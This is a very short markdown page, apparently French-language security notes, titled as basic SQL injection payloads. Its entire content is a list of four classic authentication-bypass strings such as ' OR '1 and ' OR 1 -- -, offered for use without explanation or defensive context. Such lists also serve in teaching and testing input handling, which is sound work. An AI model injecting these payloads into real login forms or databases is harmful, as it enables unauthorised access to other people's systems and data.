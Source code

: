 # Payloads pour Basics Injections SQL :

- Payload 1 : ' OR '1
- Payload 2 : ' OR 1 -- -
- Payload 3 : ' OR '' = '
- Payload 4 : ' OR 'x'='x

